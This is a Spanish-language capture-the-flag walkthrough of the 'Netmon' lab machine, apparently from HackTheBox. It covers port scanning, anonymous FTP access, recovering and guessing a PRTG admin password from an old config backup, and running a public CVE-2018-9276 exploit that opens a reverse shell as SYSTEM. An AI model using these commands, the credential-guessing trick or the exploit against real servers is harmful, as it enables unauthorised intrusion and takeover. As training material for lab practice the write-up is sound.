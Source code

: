 
# Información

+ Name: Netmon
+ OS: Windows
+ IP: 10.129.230.176
+ Difficulty: Easy

# Enumeracion

### Nmap

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.230.176
```

```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```

Escaneo detallado:

```
nmap -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV -oN targeted 10.129.230.176
```

```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

`Nmap` revela login anonymous habilitado en `ftp`
### web

![login.png](Images/login.png)

PRTG Network Monitor es un software de monitoreo de red desarrollado por paessler.

Probé las credenciales predeterminadas `prtgadmin:prtgadmin` pero no son validas.
### ftp

anonymous login:

```
229 Entering Extended Passive Mode (|||51316|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
```

`ls -la`:

```
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
07-14-25  08:13AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
```

En `ProgramData/Paessler/PRTG Network Monitor` se encuentran archivos de configuración de `PRTG`:

```
07-14-25  08:55AM       <DIR>          Configuration Auto-Backups
07-14-25  08:23AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
07-14-25  08:23AM       <DIR>          Logs (Web Server)
07-14-25  08:23AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-14-25  11:01AM              1721958 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```

En `PRTG Configuration.old.bak` se encuentra la contraseña `PrTg@dmin2018`:

```
<dbpassword>
           <!-- User: prtgadmin -->
           PrTg@dmin2018
</dbpassword>
```

Desafortunadamente no es valida:

![fail.png](Images/fail.png)

Como se encontraba en un backup de un archivo antiguo `.old` probe en cambiar 2018 por 2019 `PrTg@dmin2019`:

Funciona !:

![home.png](Images/home.png)

En la pagina principal se encuentra la version instalada de `PRTG Monitor`:

![version.png](Images/version.png)
# Explotacion

### CVE-2018-9276

En versiones anteriores a la 18.2.39. Un atacante con acceso al PRTG con privilegios de administrador puede explotar una vulnerabilidad de inyección de comandos del sistema operativo a través de campos mal sanitizados en la configuración de sensores personalizados.

Yo use este exploit de [A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276)

```
python3 exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.14.111 --lport 443 --user prtgadmin --password PrTg@dmin2019
```

Shell como `nt authority\system`:

```
<..snip..>
C:\Windows\system32>whoami
whoami
nt authority\system
```

Flags:

`user.txt`

```
d0d26d8*************************
```

`root.txt`

```
ceaba7**************************
```

# 🦀
